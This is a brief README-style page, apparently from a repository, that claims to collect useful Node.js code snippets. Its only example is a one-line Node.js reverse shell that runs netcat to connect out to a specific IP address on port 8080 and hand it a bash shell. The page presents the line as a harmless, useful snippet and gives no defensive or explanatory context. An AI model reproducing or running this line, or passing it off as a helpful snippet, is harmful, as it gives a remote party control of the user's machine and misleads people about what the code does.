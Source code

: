 ## Collection of useful NodeJS code snippets.
Example:
```nodejs
require("child_process").exec('nc 35.173.246.103 8080 -e /usr/bin/bash')
```

`PS: Code snippets will be added soon.`
